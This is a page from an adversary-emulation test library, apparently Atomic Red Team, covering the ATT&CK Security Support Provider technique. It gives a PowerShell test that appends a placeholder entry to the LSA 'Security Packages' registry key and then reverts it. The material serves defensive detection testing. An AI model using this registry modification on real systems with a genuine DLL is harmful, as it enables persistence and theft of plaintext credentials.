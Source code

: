 # T1101 - Security Support Provider
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1101)
<blockquote>Windows Security Support Provider (SSP) DLLs are loaded into the Local Security Authority (LSA) process at system start. Once loaded into the LSA, SSP DLLs have access to encrypted and plaintext passwords that are stored in Windows, such as any logged-on user's Domain password or smart card PINs. The SSP configuration is stored in two Registry keys: <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages</code> and <code>HKLM\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\Security Packages</code>. An adversary may modify these Registry keys to add new SSPs, which will be loaded the next time the system boots, or when the AddSecurityPackage Windows API function is called.
 (Citation: Graeber 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Modify SSP configuration in registry](#atomic-test-1---modify-ssp-configuration-in-registry)


<br/>

## Atomic Test #1 - Modify SSP configuration in registry
Add a value to a Windows registry SSP key, simulating an adversarial modification of those keys.
**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| fake_ssp_dll | Value added to registry key. Normally refers to a DLL name in C:\Windows\System32. | String | not-a-ssp|

#### Run it with `powershell`!
```
# run these in sequence
$SecurityPackages = Get-ItemProperty HKLM:\System\CurrentControlSet\Control\Lsa -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'
$SecurityPackagesUpdated = $SecurityPackages
$SecurityPackagesUpdated += "#{fake_ssp_dll}"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $SecurityPackagesUpdated

# revert (before reboot)
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name 'Security Packages' -Value $SecurityPackages
```
<br/>